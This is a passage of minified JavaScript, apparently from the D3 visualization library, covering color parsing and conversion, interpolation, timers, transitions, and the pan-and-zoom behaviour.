dn(255*n[1]/100,255*n[2]/100,255*n[3]/100,1):(n=nn.exec(t))?hn(n[1],n[2],n[3],n[4]):(n=en.exec(t))?hn(255*n[1]/100,255*n[2]/100,255*n[3]/100,n[4]):(n=rn.exec(t))?mn(n[1],n[2]/100,n[3]/100,1):(n=on.exec(t))?mn(n[1],n[2]/100,n[3]/100,n[4]):an.hasOwnProperty(t)?cn(an[t]):"transparent"===t?new dn(NaN,NaN,NaN,0):null}function cn(t){return new dn(t>>16&255,t>>8&255,255&t,1)}function hn(t,n,e,r){return r<=0&&(t=n=e=NaN),new dn(t,n,e,r)}function fn(t,n,e,r){return 1===arguments.length?((i=t)instanceof Xt||(i=ln(i)),i?new dn((i=i.rgb()).r,i.g,i.b,i.opacity):new dn):new dn(t,n,e,null==r?1:r);var i}function dn(t,n,e,r){this.r=+t,this.g=+n,this.b=+e,this.opacity=+r}function pn(){return`#${_n(this.r)}${_n(this.g)}${_n(this.b)}`}function gn(){const t=yn(this.opacity);return`${1===t?"rgb(":"rgba("}${vn(this.r)}, ${vn(this.g)}, ${vn(this.b)}${1===t?")":`, ${t})`}`}function yn(t){return isNaN(t)?1:Math.max(0,Math.min(1,t))}function vn(t){return Math.max(0,Math.min(255,Math.round(t)||0))}function _n(t){return((t=vn(t))<16?"0":"")+t.toString(16)}function mn(t,n,e,r){return r<=0?t=n=e=NaN:e<=0||e>=1?t=n=NaN:n<=0&&(t=NaN),new bn(t,n,e,r)}function xn(t){if(t instanceof bn)return new bn(t.h,t.s,t.l,t.opacity);if(t instanceof Xt||(t=ln(t)),!t)return new bn;if(t instanceof bn)return t;var n=(t=t.rgb()).r/255,e=t.g/255,r=t.b/255,i=Math.min(n,e,r),o=Math.max(n,e,r),a=NaN,u=o-i,s=(o+i)/2;return u?(a=n===o?(e-r)/u+6*(e<r):e===o?(r-n)/u+2:(n-e)/u+4,u/=s<.5?o+i:2-o-i,a*=60):u=s>0&&s<1?0:a,new bn(a,u,s,t.opacity)}function bn(t,n,e,r){this.h=+t,this.s=+n,this.l=+e,this.opacity=+r}function wn(t){return(t=(t||0)%360)<0?t+360:t}function kn(t){return Math.max(0,Math.min(1,t||0))}function Mn(t,n,e){return 255*(t<60?n+(e-n)*t/60:t<180?e:t<240?n+(e-n)*(240-t)/60:n)}Ht(Xt,ln,{copy(t){return Object.assign(new this.constructor,this,t)},displayable(){return this.rgb().displayable()},hex:un,formatHex:un,formatHex8:function(){return this.rgb().formatHex8()},formatHsl:function(){return xn(this).formatHsl()},formatRgb:sn,toString:sn}),Ht(dn,fn,Vt(Xt,{brighter(t){return t=null==t?Yt:Math.pow(Yt,t),new dn(this.r*t,this.g*t,this.b*t,this.opacity)},darker(t){return t=null==t?Gt:Math.pow(Gt,t),new dn(this.r*t,this.g*t,this.b*t,this.opacity)},rgb(){return this},clamp(){return new dn(vn(this.r),vn(this.g),vn(this.b),yn(this.opacity))},displayable(){return-.5<=this.r&&this.r<255.5&&-.5<=this.g&&this.g<255.5&&-.5<=this.b&&this.b<255.5&&0<=this.opacity&&this.opacity<=1},hex:pn,formatHex:pn,formatHex8:function(){return`#${_n(this.r)}${_n(this.g)}${_n(this.b)}${_n(255*(isNaN(this.opacity)?1:this.opacity))}`},formatRgb:gn,toString:gn})),Ht(bn,(function(t,n,e,r){return 1===arguments.length?xn(t):new bn(t,n,e,null==r?1:r)}),Vt(Xt,{brighter(t){return t=null==t?Yt:Math.pow(Yt,t),new bn(this.h,this.s,this.l*t,this.opacity)},darker(t){return t=null==t?Gt:Math.pow(Gt,t),new bn(this.h,this.s,this.l*t,this.opacity)},rgb(){var t=this.h%360+360*(this.h<0),n=isNaN(t)||isNaN(this.s)?0:this.s,e=this.l,r=e+(e<.5?e:1-e)*n,i=2*e-r;return new dn(Mn(t>=240?t-240:t+120,i,r),Mn(t,i,r),Mn(t<120?t+240:t-120,i,r),this.opacity)},clamp(){return new bn(wn(this.h),kn(this.s),kn(this.l),yn(this.opacity))},displayable(){return(0<=this.s&&this.s<=1||isNaN(this.s))&&0<=this.l&&this.l<=1&&0<=this.opacity&&this.opacity<=1},formatHsl(){const t=yn(this.opacity);return`${1===t?"hsl(":"hsla("}${wn(this.h)}, ${100*kn(this.s)}%, ${100*kn(this.l)}%${1===t?")":`, ${t})`}`}}));var zn=t=>()=>t;function An(t){return 1==(t=+t)?Sn:function(n,e){return e-n?function(t,n,e){return t=Math.pow(t,e),n=Math.pow(n,e)-t,e=1/e,function(r){return Math.pow(t+r*n,e)}}(n,e,t):zn(isNaN(n)?e:n)}}function Sn(t,n){var e=n-t;return e?function(t,n){return function(e){return t+e*n}}(t,e):zn(isNaN(t)?n:t)}var Cn=function t(n){var e=An(n);function r(t,n){var r=e((t=fn(t)).r,(n=fn(n)).r),i=e(t.g,n.g),o=e(t.b,n.b),a=Sn(t.opacity,n.opacity);return function(n){return t.r=r(n),t.g=i(n),t.b=o(n),t.opacity=a(n),t+""}}return r.gamma=t,r}(1);function En(t,n){return t=+t,n=+n,function(e){return t*(1-e)+n*e}}var On=/[-+]?(?:\d+\.?\d*|\.?\d+)(?:[eE][-+]?\d+)?/g,Nn=new RegExp(On.source,"g");function Pn(t,n){var e,r,i,o=On.lastIndex=Nn.lastIndex=0,a=-1,u=[],s=[];for(t+="",n+="";(e=On.exec(t))&&(r=Nn.exec(n));)(i=r.index)>o&&(i=n.slice(o,i),u[a]?u[a]+=i:u[++a]=i),(e=e[0])===(r=r[0])?u[a]?u[a]+=r:u[++a]=r:(u[++a]=null,s.push({i:a,x:En(e,r)})),o=Nn.lastIndex;return o<n.length&&(i=n.slice(o),u[a]?u[a]+=i:u[++a]=i),u.length<2?s[0]?function(t){return function(n){return t(n)+""}}(s[0].x):function(t){return function(){return t}}(n):(n=s.length,function(t){for(var e,r=0;r<n;++r)u[(e=s[r]).i]=e.x(t);return u.join("")})}var jn,Tn=180/Math.PI,Rn={translateX:0,translateY:0,rotate:0,skewX:0,scaleX:1,scaleY:1};function Dn(t,n,e,r,i,o){var a,u,s;return(a=Math.sqrt(t*t+n*n))&&(t/=a,n/=a),(s=t*e+n*r)&&(e-=t*s,r-=n*s),(u=Math.sqrt(e*e+r*r))&&(e/=u,r/=u,s/=u),t*r<n*e&&(t=-t,n=-n,s=-s,a=-a),{translateX:i,translateY:o,rotate:Math.atan2(n,t)*Tn,skewX:Math.atan(s)*Tn,scaleX:a,scaleY:u}}function In(t,n,e,r){function i(t){return t.length?t.pop()+" ":""}return function(o,a){var u=[],s=[];return o=t(o),a=t(a),function(t,r,i,o,a,u){if(t!==i||r!==o){var s=a.push("translate(",null,n,null,e);u.push({i:s-4,x:En(t,i)},{i:s-2,x:En(r,o)})}else(i||o)&&a.push("translate("+i+n+o+e)}(o.translateX,o.translateY,a.translateX,a.translateY,u,s),function(t,n,e,o){t!==n?(t-n>180?n+=360:n-t>180&&(t+=360),o.push({i:e.push(i(e)+"rotate(",null,r)-2,x:En(t,n)})):n&&e.push(i(e)+"rotate("+n+r)}(o.rotate,a.rotate,u,s),function(t,n,e,o){t!==n?o.push({i:e.push(i(e)+"skewX(",null,r)-2,x:En(t,n)}):n&&e.push(i(e)+"skewX("+n+r)}(o.skewX,a.skewX,u,s),function(t,n,e,r,o,a){if(t!==e||n!==r){var u=o.push(i(o)+"scale(",null,",",null,")");a.push({i:u-4,x:En(t,e)},{i:u-2,x:En(n,r)})}else 1===e&&1===r||o.push(i(o)+"scale("+e+","+r+")")}(o.scaleX,o.scaleY,a.scaleX,a.scaleY,u,s),o=a=null,function(t){for(var n,e=-1,r=s.length;++e<r;)u[(n=s[e]).i]=n.x(t);return u.join("")}}}var Un=In((function(t){const n=new("function"==typeof DOMMatrix?DOMMatrix:WebKitCSSMatrix)(t+"");return n.isIdentity?Rn:Dn(n.a,n.b,n.c,n.d,n.e,n.f)}),"px, ","px)","deg)"),Fn=In((function(t){return null==t?Rn:(jn||(jn=document.createElementNS("http://www.w3.org/2000/svg","g")),jn.setAttribute("transform",t),(t=jn.transform.baseVal.consolidate())?Dn((t=t.matrix).a,t.b,t.c,t.d,t.e,t.f):Rn)}),", ",")",")");function Ln(t){return((t=Math.exp(t))+1/t)/2}var qn,Bn,$n=function t(n,e,r){function i(t,i){var o,a,u=t[0],s=t[1],l=t[2],c=i[0],h=i[1],f=i[2],d=c-u,p=h-s,g=d*d+p*p;if(g<1e-12)a=Math.log(f/l)/n,o=function(t){return[u+t*d,s+t*p,l*Math.exp(n*t*a)]};else{var y=Math.sqrt(g),v=(f*f-l*l+r*g)/(2*l*e*y),_=(f*f-l*l-r*g)/(2*f*e*y),m=Math.log(Math.sqrt(v*v+1)-v),x=Math.log(Math.sqrt(_*_+1)-_);a=(x-m)/n,o=function(t){var r=t*a,i=Ln(m),o=l/(e*y)*(i*function(t){return((t=Math.exp(2*t))-1)/(t+1)}(n*r+m)-function(t){return((t=Math.exp(t))-1/t)/2}(m));return[u+o*d,s+o*p,l*i/Ln(n*r+m)]}}return o.duration=1e3*a*n/Math.SQRT2,o}return i.rho=function(n){var e=Math.max(.001,+n),r=e*e;return t(e,r,r*r)},i}(Math.SQRT2,2,4),Hn=0,Vn=0,Xn=0,Gn=1e3,Yn=0,Wn=0,Zn=0,Qn="object"==typeof performance&&performance.now?performance:Date,Kn="object"==typeof window&&window.requestAnimationFrame?window.requestAnimationFrame.bind(window):function(t){setTimeout(t,17)};function Jn(){return Wn||(Kn(te),Wn=Qn.now()+Zn)}function te(){Wn=0}function ne(){this._call=this._time=this._next=null}function ee(t,n,e){var r=new ne;return r.restart(t,n,e),r}function re(){Wn=(Yn=Qn.now())+Zn,Hn=Vn=0;try{!function(){Jn(),++Hn;for(var t,n=qn;n;)(t=Wn-n._time)>=0&&n._call.call(void 0,t),n=n._next;--Hn}()}finally{Hn=0,function(){var t,n,e=qn,r=1/0;for(;e;)e._call?(r>e._time&&(r=e._time),t=e,e=e._next):(n=e._next,e._next=null,e=t?t._next=n:qn=n);Bn=t,oe(r)}(),Wn=0}}function ie(){var t=Qn.now(),n=t-Yn;n>Gn&&(Zn-=n,Yn=t)}function oe(t){Hn||(Vn&&(Vn=clearTimeout(Vn)),t-Wn>24?(t<1/0&&(Vn=setTimeout(re,t-Qn.now()-Zn)),Xn&&(Xn=clearInterval(Xn))):(Xn||(Yn=Qn.now(),Xn=setInterval(ie,Gn)),Hn=1,Kn(re)))}function ae(t,n,e){var r=new ne;return n=null==n?0:+n,r.restart((e=>{r.stop(),t(e+n)}),n,e),r}ne.prototype=ee.prototype={constructor:ne,restart:function(t,n,e){if("function"!=typeof t)throw new TypeError("callback is not a function");e=(null==e?Jn():+e)+(null==n?0:+n),this._next||Bn===this||(Bn?Bn._next=this:qn=this,Bn=this),this._call=t,this._time=e,oe()},stop:function(){this._call&&(this._call=null,this._time=1/0,oe())}};var ue=Ct("start","end","cancel","interrupt"),se=[],le=0,ce=1,he=2,fe=3,de=4,pe=5,ge=6;function ye(t,n,e,r,i,o){var a=t.__transition;if(a){if(e in a)return}else t.__transition={};!function(t,n,e){var r,i=t.__transition;function o(t){e.state=ce,e.timer.restart(a,e.delay,e.time),e.delay<=t&&a(t-e.delay)}function a(o){var l,c,h,f;if(e.state!==ce)return s();for(l in i)if((f=i[l]).name===e.name){if(f.state===fe)return ae(a);f.state===de?(f.state=ge,f.timer.stop(),f.on.call("interrupt",t,t.__data__,f.index,f.group),delete i[l]):+l<n&&(f.state=ge,f.timer.stop(),f.on.call("cancel",t,t.__data__,f.index,f.group),delete i[l])}if(ae((function(){e.state===fe&&(e.state=de,e.timer.restart(u,e.delay,e.time),u(o))})),e.state=he,e.on.call("start",t,t.__data__,e.index,e.group),e.state===he){for(e.state=fe,r=new Array(h=e.tween.length),l=0,c=-1;l<h;++l)(f=e.tween[l].value.call(t,t.__data__,e.index,e.group))&&(r[++c]=f);r.length=c+1}}function u(n){for(var i=n<e.duration?e.ease.call(null,n/e.duration):(e.timer.restart(s),e.state=pe,1),o=-1,a=r.length;++o<a;)r[o].call(t,i);e.state===pe&&(e.on.call("end",t,t.__data__,e.index,e.group),s())}function s(){for(var r in e.state=ge,e.timer.stop(),delete i[n],i)return;delete t.__transition}i[n]=e,e.timer=ee(o,0,e.time)}(t,e,{name:n,index:r,group:i,on:ue,tween:se,time:o.time,delay:o.delay,duration:o.duration,ease:o.ease,timer:null,state:le})}function ve(t,n){var e=me(t,n);if(e.state>le)throw new Error("too late; already scheduled");return e}function _e(t,n){var e=me(t,n);if(e.state>fe)throw new Error("too late; already running");return e}function me(t,n){var e=t.__transition;if(!e||!(e=e[n]))throw new Error("transition not found");return e}function xe(t,n){var e,r,i,o=t.__transition,a=!0;if(o){for(i in n=null==n?null:n+"",o)(e=o[i]).name===n?(r=e.state>he&&e.state<pe,e.state=ge,e.timer.stop(),e.on.call(r?"interrupt":"cancel",t,t.__data__,e.index,e.group),delete o[i]):a=!1;a&&delete t.__transition}}function be(t,n){var e,r;return function(){var i=_e(this,t),o=i.tween;if(o!==e)for(var a=0,u=(r=e=o).length;a<u;++a)if(r[a].name===n){(r=r.slice()).splice(a,1);break}i.tween=r}}function we(t,n,e){var r,i;if("function"!=typeof e)throw new Error;return function(){var o=_e(this,t),a=o.tween;if(a!==r){i=(r=a).slice();for(var u={name:n,value:e},s=0,l=i.length;s<l;++s)if(i[s].name===n){i[s]=u;break}s===l&&i.push(u)}o.tween=i}}function ke(t,n,e){var r=t._id;return t.each((function(){var t=_e(this,r);(t.value||(t.value={}))[n]=e.apply(this,arguments)})),function(t){return me(t,r).value[n]}}function Me(t,n){var e;return("number"==typeof n?En:n instanceof ln?Cn:(e=ln(n))?(n=e,Cn):Pn)(t,n)}function ze(t){return function(){this.removeAttribute(t)}}function Ae(t){return function(){this.removeAttributeNS(t.space,t.local)}}function Se(t,n,e){var r,i,o=e+"";return function(){var a=this.getAttribute(t);return a===o?null:a===r?i:i=n(r=a,e)}}function Ce(t,n,e){var r,i,o=e+"";return function(){var a=this.getAttributeNS(t.space,t.local);return a===o?null:a===r?i:i=n(r=a,e)}}function Ee(t,n,e){var r,i,o;return function(){var a,u,s=e(this);if(null!=s)return(a=this.getAttribute(t))===(u=s+"")?null:a===r&&u===i?o:(i=u,o=n(r=a,s));this.removeAttribute(t)}}function Oe(t,n,e){var r,i,o;return function(){var a,u,s=e(this);if(null!=s)return(a=this.getAttributeNS(t.space,t.local))===(u=s+"")?null:a===r&&u===i?o:(i=u,o=n(r=a,s));this.removeAttributeNS(t.space,t.local)}}function Ne(t,n){var e,r;function i(){var i=n.apply(this,arguments);return i!==r&&(e=(r=i)&&function(t,n){return function(e){this.setAttributeNS(t.space,t.local,n.call(this,e))}}(t,i)),e}return i._value=n,i}function Pe(t,n){var e,r;function i(){var i=n.apply(this,arguments);return i!==r&&(e=(r=i)&&function(t,n){return function(e){this.setAttribute(t,n.call(this,e))}}(t,i)),e}return i._value=n,i}function je(t,n){return function(){ve(this,t).delay=+n.apply(this,arguments)}}function Te(t,n){return n=+n,function(){ve(this,t).delay=n}}function Re(t,n){return function(){_e(this,t).duration=+n.apply(this,arguments)}}function De(t,n){return n=+n,function(){_e(this,t).duration=n}}var Ie=Mt.prototype.constructor;function Ue(t){return function(){this.style.removeProperty(t)}}var Fe=0;function Le(t,n,e,r){this._groups=t,this._parents=n,this._name=e,this._id=r}function qe(){return++Fe}var Be=Mt.prototype;Le.prototype={constructor:Le,select:function(t){var n=this._name,e=this._id;"function"!=typeof t&&(t=x(t));for(var r=this._groups,i=r.length,o=new Array(i),a=0;a<i;++a)for(var u,s,l=r[a],c=l.length,h=o[a]=new Array(c),f=0;f<c;++f)(u=l[f])&&(s=t.call(u,u.__data__,f,l))&&("__data__"in u&&(s.__data__=u.__data__),h[f]=s,ye(h[f],n,e,f,h,me(u,e)));return new Le(o,this._parents,n,e)},selectAll:function(t){var n=this._name,e=this._id;"function"!=typeof t&&(t=w(t));for(var r=this._groups,i=r.length,o=[],a=[],u=0;u<i;++u)for(var s,l=r[u],c=l.length,h=0;h<c;++h)if(s=l[h]){for(var f,d=t.call(s,s.__data__,h,l),p=me(s,e),g=0,y=d.length;g<y;++g)(f=d[g])&&ye(f,n,e,g,d,p);o.push(d),a.push(s)}return new Le(o,a,n,e)},selectChild:Be.selectChild,selectChildren:Be.selectChildren,filter:function(t){"function"!=typeof t&&(t=M(t));for(var n=this._groups,e=n.length,r=new Array(e),i=0;i<e;++i)for(var o,a=n[i],u=a.length,s=r[i]=[],l=0;l<u;++l)(o=a[l])&&t.call(o,o.__data__,l,a)&&s.push(o);return new Le(r,this._parents,this._name,this._id)},merge:function(t){if(t._id!==this._id)throw new Error;for(var n=this._groups,e=t._groups,r=n.length,i=e.length,o=Math.min(r,i),a=new Array(r),u=0;u<o;++u)for(var s,l=n[u],c=e[u],h=l.length,f=a[u]=new Array(h),d=0;d<h;++d)(s=l[d]||c[d])&&(f[d]=s);for(;u<r;++u)a[u]=n[u];return new Le(a,this._parents,this._name,this._id)},selection:function(){return new Ie(this._groups,this._parents)},transition:function(){for(var t=this._name,n=this._id,e=qe(),r=this._groups,i=r.length,o=0;o<i;++o)for(var a,u=r[o],s=u.length,l=0;l<s;++l)if(a=u[l]){var c=me(a,n);ye(a,t,e,l,u,{time:c.time+c.delay+c.duration,delay:0,duration:c.duration,ease:c.ease})}return new Le(r,this._parents,t,e)},call:Be.call,nodes:Be.nodes,node:Be.node,size:Be.size,empty:Be.empty,each:Be.each,on:function(t,n){var e=this._id;return arguments.length<2?me(this.node(),e).on.on(t):this.each(function(t,n,e){var r,i,o=function(t){return(t+"").trim().split(/^|\s+/).every((function(t){var n=t.indexOf(".");return n>=0&&(t=t.slice(0,n)),!t||"start"===t}))}(n)?ve:_e;return function(){var a=o(this,t),u=a.on;u!==r&&(i=(r=u).copy()).on(n,e),a.on=i}}(e,t,n))},attr:function(t,n){var e=g(t),r="transform"===e?Fn:Me;return this.attrTween(t,"function"==typeof n?(e.local?Oe:Ee)(e,r,ke(this,"attr."+t,n)):null==n?(e.local?Ae:ze)(e):(e.local?Ce:Se)(e,r,n))},attrTween:function(t,n){var e="attr."+t;if(arguments.length<2)return(e=this.tween(e))&&e._value;if(null==n)return this.tween(e,null);if("function"!=typeof n)throw new Error;var r=g(t);return this.tween(e,(r.local?Ne:Pe)(r,n))},style:function(t,n,e){var r="transform"==(t+="")?Un:Me;return null==n?this.styleTween(t,function(t,n){var e,r,i;return function(){var o=G(this,t),a=(this.style.removeProperty(t),G(this,t));return o===a?null:o===e&&a===r?i:i=n(e=o,r=a)}}(t,r)).on("end.style."+t,Ue(t)):"function"==typeof n?this.styleTween(t,function(t,n,e){var r,i,o;return function(){var a=G(this,t),u=e(this),s=u+"";return null==u&&(this.style.removeProperty(t),s=u=G(this,t)),a===s?null:a===r&&s===i?o:(i=s,o=n(r=a,u))}}(t,r,ke(this,"style."+t,n))).each(function(t,n){var e,r,i,o,a="style."+n,u="end."+a;return function(){var s=_e(this,t),l=s.on,c=null==s.value[a]?o||(o=Ue(n)):void 0;l===e&&i===c||(r=(e=l).copy()).on(u,i=c),s.on=r}}(this._id,t)):this.styleTween(t,function(t,n,e){var r,i,o=e+"";return function(){var a=G(this,t);return a===o?null:a===r?i:i=n(r=a,e)}}(t,r,n),e).on("end.style."+t,null)},styleTween:function(t,n,e){var r="style."+(t+="");if(arguments.length<2)return(r=this.tween(r))&&r._value;if(null==n)return this.tween(r,null);if("function"!=typeof n)throw new Error;return this.tween(r,function(t,n,e){var r,i;function o(){var o=n.apply(this,arguments);return o!==i&&(r=(i=o)&&function(t,n,e){return function(r){this.style.setProperty(t,n.call(this,r),e)}}(t,o,e)),r}return o._value=n,o}(t,n,null==e?"":e))},text:function(t){return this.tween("text","function"==typeof t?function(t){return function(){var n=t(this);this.textContent=null==n?"":n}}(ke(this,"text",t)):function(t){return function(){this.textContent=t}}(null==t?"":t+""))},textTween:function(t){var n="text";if(arguments.length<1)return(n=this.tween(n))&&n._value;if(null==t)return this.tween(n,null);if("function"!=typeof t)throw new Error;return this.tween(n,function(t){var n,e;function r(){var r=t.apply(this,arguments);return r!==e&&(n=(e=r)&&function(t){return function(n){this.textContent=t.call(this,n)}}(r)),n}return r._value=t,r}(t))},remove:function(){return this.on("end.remove",function(t){return function(){var n=this.parentNode;for(var e in this.__transition)if(+e!==t)return;n&&n.removeChild(this)}}(this._id))},tween:function(t,n){var e=this._id;if(t+="",arguments.length<2){for(var r,i=me(this.node(),e).tween,o=0,a=i.length;o<a;++o)if((r=i[o]).name===t)return r.value;return null}return this.each((null==n?be:we)(e,t,n))},delay:function(t){var n=this._id;return arguments.length?this.each(("function"==typeof t?je:Te)(n,t)):me(this.node(),n).delay},duration:function(t){var n=this._id;return arguments.length?this.each(("function"==typeof t?Re:De)(n,t)):me(this.node(),n).duration},ease:function(t){var n=this._id;return arguments.length?this.each(function(t,n){if("function"!=typeof n)throw new Error;return function(){_e(this,t).ease=n}}(n,t)):me(this.node(),n).ease},easeVarying:function(t){if("function"!=typeof t)throw new Error;return this.each(function(t,n){return function(){var e=n.apply(this,arguments);if("function"!=typeof e)throw new Error;_e(this,t).ease=e}}(this._id,t))},end:function(){var t,n,e=this,r=e._id,i=e.size();return new Promise((function(o,a){var u={value:a},s={value:function(){0==--i&&o()}};e.each((function(){var e=_e(this,r),i=e.on;i!==t&&((n=(t=i).copy())._.cancel.push(u),n._.interrupt.push(u),n._.end.push(s)),e.on=n})),0===i&&o()}))},[Symbol.iterator]:Be[Symbol.iterator]};var $e={time:null,delay:0,duration:250,ease:function(t){return((t*=2)<=1?t*t*t:(t-=2)*t*t+2)/2}};function He(t,n){for(var e;!(e=t.__transition)||!(e=e[n]);)if(!(t=t.parentNode))throw new Error(`transition ${n} not found`);return e}Mt.prototype.interrupt=function(t){return this.each((function(){xe(this,t)}))},Mt.prototype.transition=function(t){var n,e;t instanceof Le?(n=t._id,t=t._name):(n=qe(),(e=$e).time=Jn(),t=null==t?null:t+"");for(var r=this._groups,i=r.length,o=0;o<i;++o)for(var a,u=r[o],s=u.length,l=0;l<s;++l)(a=u[l])&&ye(a,t,n,l,u,e||He(a,n));return new Le(r,this._parents,t,n)};var Ve=t=>()=>t;function Xe(t,{sourceEvent:n,target:e,transform:r,dispatch:i}){Object.defineProperties(this,{type:{value:t,enumerable:!0,configurable:!0},sourceEvent:{value:n,enumerable:!0,configurable:!0},target:{value:e,enumerable:!0,configurable:!0},transform:{value:r,enumerable:!0,configurable:!0},_:{value:i}})}function Ge(t,n,e){this.k=t,this.x=n,this.y=e}Ge.prototype={constructor:Ge,scale:function(t){return 1===t?this:new Ge(this.k*t,this.x,this.y)},translate:function(t,n){return 0===t&0===n?this:new Ge(this.k,this.x+this.k*t,this.y+this.k*n)},apply:function(t){return[t[0]*this.k+this.x,t[1]*this.k+this.y]},applyX:function(t){return t*this.k+this.x},applyY:function(t){return t*this.k+this.y},invert:function(t){return[(t[0]-this.x)/this.k,(t[1]-this.y)/this.k]},invertX:function(t){return(t-this.x)/this.k},invertY:function(t){return(t-this.y)/this.k},rescaleX:function(t){return t.copy().domain(t.range().map(this.invertX,this).map(t.invert,t))},rescaleY:function(t){return t.copy().domain(t.range().map(this.invertY,this).map(t.invert,t))},toString:function(){return"translate("+this.x+","+this.y+") scale("+this.k+")"}};var Ye=new Ge(1,0,0);function We(t){for(;!t.__zoom;)if(!(t=t.parentNode))return Ye;return t.__zoom}function Ze(t){t.stopImmediatePropagation()}function Qe(t){t.preventDefault(),t.stopImmediatePropagation()}function Ke(t){return!(t.ctrlKey&&"wheel"!==t.type||t.button)}function Je(){var t=this;return t instanceof SVGElement?(t=t.ownerSVGElement||t).hasAttribute("viewBox")?[[(t=t.viewBox.baseVal).x,t.y],[t.x+t.width,t.y+t.height]]:[[0,0],[t.width.baseVal.value,t.height.baseVal.value]]:[[0,0],[t.clientWidth,t.clientHeight]]}function tr(){return this.__zoom||Ye}function nr(t){return-t.deltaY*(1===t.deltaMode?.05:t.deltaMode?1:.002)*(t.ctrlKey?10:1)}function er(){return navigator.maxTouchPoints||"ontouchstart"in this}function rr(t,n,e){var r=t.invertX(n[0][0])-e[0][0],i=t.invertX(n[1][0])-e[1][0],o=t.invertY(n[0][1])-e[0][1],a=t.invertY(n[1][1])-e[1][1];return t.translate(i>r?(r+i)/2:Math.min(0,r)||Math.max(0,i),a>o?(o+a)/2:Math.min(0,o)||Math.max(0,a))}function ir(){var t,n,e,r=Ke,i=Je,o=rr,a=nr,u=er,s=[0,1/0],l=[[-1/0,-1/0],[1/0,1/0]],c=250,h=$n,f=Ct("start","zoom","end"),d=500,p=150,g=0,y=10;function v(t){t.property("__zoom",tr).on("wheel.zoom",M,{passive:!1}).on("mousedown.zoom",z).on("dblclick.zoom",A).filter(u).on("touchstart.zoom",S).on("touchmove.zoom",C).on("touchend.zoom touchcancel.zoom",E).style("-webkit-tap-highlight-color","rgba(0,0,0,0)")}function _(t,n){return(n=Math.max(s[0],Math.min(s[1],n)))===t.k?t:new Ge(n,t.x,t.y)}function m(t,n,e){var r=n[0]-e[0]*t.k,i=n[1]-e[1]*t.k;return r===t.x&&i===t.y?t:new Ge(t.k,r,i)}function x(t){return[(+t[0][0]+ +t[1][0])/2,(+t[0][1]+ +t[1][1])/2]}function b(t,n,e,r){t.on("start.zoom",(function(){w(this,arguments).event(r).start()})).on("interrupt.zoom end.zoom",(function(){w(this,arguments).event(r).end()})).tween("zoom",(function(){var t=this,o=arguments,a=w(t,o).event(r),u=i.apply(t,o),s=null==e?x(u):"function"==typeof e?e.apply(t,o):e,l=Math.max(u[1][0]-u[0][0],u[1][1]-u[0][1]),c=t.__zoom,f="function"==typeof n?n.apply(t,o):n,d=h(c.invert(s).concat(l/c.k),f.invert(s).concat(l/f.k));return function(t){if(1===t)t=f;else{var n=d(t),e=l/n[2];t=new Ge(e,s[0]-n[0]*e,s[1]-n[1]*e)}a.zoom(null,t)}}))}function w(t,n,e){return!e&&t.__zooming||new k(t,n)}function k(t,n){this.that=t,this.args=n,this.active=0,this.sourceEvent=null,this.extent=i.apply(t,n),this.taps=0}function M(t,...n){if(r.apply(this,arguments)){var e=w(this,n).event(t),i=this.__zoom,u=Math.max(s[0],Math.min(s[1],i.k*Math.pow(2,a.apply(this,arguments)))),c=At(t);if(e.wheel)e.mouse[0][0]===c[0]&&e.mouse[0][1]===c[1]||(e.mouse[1]=i.invert(e.mouse[0]=c)),clearTimeout(e.wheel);else{if(i.k===u)return;e.mouse=[c,i.invert(c)],xe(this),e.start()}Qe(t),e.wheel=setTimeout((function(){e.wheel=null,e.end()}),p),e.zoom("mouse",o(m(_(i,u),e.mouse[0],e.mouse[1]),e.extent,l))}}function z(t,...n){if(!e&&r.apply(this,arguments)){var i=t.currentTarget,a=w(this,n,!0).event(t),u=zt(t.view).on("mousemove.zoom",(function(t){if(Qe(t),!a.moved){var n=t.clientX-c,e=t.clientY-h;a.moved=n*n+e*e>g}a.event(t).zoom("mouse",o(m(a.that.__zoom,a.mouse[0]=At(t,i),a.mouse[1]),a.extent,l))}),!0).on("mouseup.zoom",(function(t){u.on("mousemove.zoom mouseup.zoom",null),It(t.view,a.moved),Qe(t),a.event(t).end()}),!0),s=At(t,i),c=t.clientX,h=t.clientY;Dt(t.view),Ze(t),a.mouse=[s,this.__zoom.invert(s)],xe(this),a.start()}}function A(t,...n){if(r.apply(this,arguments)){var e=this.__zoom,a=At(t.changedTouches?t.changedTouches[0]:t,this),u=e.invert(a),s=e.k*(t.shiftKey?.5:2),h=o(m(_(e,s),a,u),i.apply(this,n),l);Qe(t),c>0?zt(this).transition().duration(c).call(b,h,a,t):zt(this).call(v.transform,h,a,t)}}function S(e,...i){if(r.apply(this,arguments)){var o,a,u,s,l=e.touches,c=l.length,h=w(this,i,e.changedTouches.length===c).event(e);for(Ze(e),a=0;a<c;++a)s=[s=At(u=l[a],this),this.__zoom.invert(s),u.identifier],h.touch0?h.touch1||h.touch0[2]===s[2]||(h.touch1=s,h.taps=0):(h.touch0=s,o=!0,h.taps=1+!!t);t&&(t=clearTimeout(t)),o&&(h.taps<2&&(n=s[0],t=setTimeout((function(){t=null}),d)),xe(this),h.start())}}function C(t,...n){if(this.__zooming){var e,r,i,a,u=w(this,n).event(t),s=t.changedTouches,c=s.length;for(Qe(t),e=0;e<c;++e)i=At(r=s[e],this),u.touch0&&u.touch0[2]===r.identifier?u.touch0[0]=i:u.touch1&&u.touch1[2]===r.identifier&&(u.touch1[0]=i);if(r=u.that.__zoom,u.touch1){var h=u.touch0[0],f=u.touch0[1],d=u.touch1[0],p=u.touch1[1],g=(g=d[0]-h[0])*g+(g=d[1]-h[1])*g,y=(y=p[0]-f[0])*y+(y=p[1]-f[1])*y;r=_(r,Math.sqrt(g/y)),i=[(h[0]+d[0])/2,(h[1]+d[1])/2],a=[(f[0]+p[0])/2,(f[1]+p[1])/2]}else{if(!u.touch0)return;i=u.touch0[0],a=u.touch0[1]}u.zoom("touch",o(m(r,i,a),u.extent,l))}}function E(t,...r){if(this.__zooming){var i,o,a=w(this,r).event(t),u=t.changedTouches,s=u.length;for(Ze(t),e&&clearTimeout(e),e=setTimeout((function(){e=null}),d),i=0;i<s;++i)o=u[i],a.touch0&&a.touch0[2]===o.identifier?delete a.touch0:a.touch1&&a.touch1[2]===o.identifier&&delete a.touch1;if(a.touch1&&!a.touch0&&(a.touch0=a.touch1,delete a.touch1),a.touch0)a.touch0[1]=this.__zoom.invert(a.touch0[0]);else if(a.end(),2===a.taps&&(o=At(o,this),Math.hypot(n[0]-o[0],n[1]-o[1])<y)){var l=zt(this).on("dblclick.zoom");l&&l.apply(this,arguments)}}}return v.transform=function(t,n,e,r){var 